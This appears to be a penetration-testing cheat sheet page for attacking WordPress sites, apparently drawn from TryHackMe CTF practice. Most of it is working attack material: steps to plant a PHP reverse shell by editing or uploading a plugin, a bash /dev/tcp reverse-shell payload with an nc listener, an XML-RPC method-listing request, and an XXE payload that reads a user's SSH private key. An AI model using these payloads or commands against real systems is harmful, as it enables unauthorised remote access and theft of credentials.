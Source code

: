 # Web







## Wordpress

### Reverse Shell #1 - Edit existing Plugin

**Examples**&#x20;

[#initial-shell](../../walkthroughs/tryhackme/wordpress-cve-2021-29447.md#initial-shell "mention")

**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
cp php-reverse-shell/php-reverse-shell.php .
subl php-reverse-shell.php 
```

Update the page with your reverse shell then save. This will make the plugin not appear anymore under Installed Plugins

<figure><img src="../../.gitbook/assets/image (1079).png" alt=""><figcaption></figcaption></figure>

Curl the page to activate it.

**Kali**

```
curl http://$VICTIM/wp-content/plugins/akismet/akismet.php
```

### Reverse Shell  #2 - Upload Plugin

**Examples**&#x20;

[mr-robot-ctf.md](../../walkthroughs/tryhackme/mr-robot-ctf.md "mention")[retro.md](../../walkthroughs/tryhackme/retro.md "mention")

**revshell.php code**

```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/$KALI/443 0>&1'");
?>
```

**Kali**

```
vi revshell.php
zip revshell.zip revshell.php
nc -lvnp 443
```





## XML-RPC

### Check if it is enabled

**Examples**

[retro.md](../../walkthroughs/tryhackme/retro.md "mention")

wpscan or a scan maybe able identified that xmlrpc.php exists, if it is check if it is enabled.

```
POST /$SITE/xmlrpc.php HTTP/1.1
Host: $VICTIM
Content-Length: 91

<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```

<figure><img src="../../.gitbook/assets/image (19) (2).png" alt=""><figcaption></figcaption></figure>

### View Files

**Examples**

[mustacchio.md](../../walkthroughs/tryhackme/mustacchio.md "mention")

**Input**

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///home/barry/.ssh/id_rsa'>]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```





